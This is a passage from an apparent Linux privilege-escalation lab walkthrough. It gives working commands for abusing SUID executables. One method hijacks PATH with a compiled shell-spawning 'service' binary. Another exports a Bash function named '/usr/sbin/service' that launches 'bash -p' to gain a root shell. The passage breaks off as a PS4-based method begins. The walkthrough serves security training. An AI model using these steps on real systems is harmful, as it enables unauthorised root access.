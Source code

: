	First, execute the file and note that it seems to be trying to start the apache2 webserver:

	/usr/local/bin/suid-env

	Run strings on the file to look for strings of printable characters:

	strings /usr/local/bin/suid-env

	One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

	Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:

	gcc -o service /home/user/tools/suid/service.c

	Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

	PATH=.:$PATH /usr/local/bin/suid-env
	
# Task 14 - SUID/SGID Executables Abusing Shell Features (#1)

	The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

	Verify this with strings:

	strings /usr/local/bin/suid-env2

	In Bash versions less than 4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

	Verify the version of Bash installed on the Debian VM is less than 4.2-048:

	/bin/bash --version

	Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

	function /usr/sbin/service { /bin/bash -p; }
	export -f /usr/sbin/service

	Run the suid-env2 executable to gain a root shell:

	/usr/local/bin/suid-env2
	
# Task 15 - SUID/SGID Executables Abusing Shell Features (#2)

	Note: This will not work on Bash versions 4.4 and above.

	When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.

	Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:
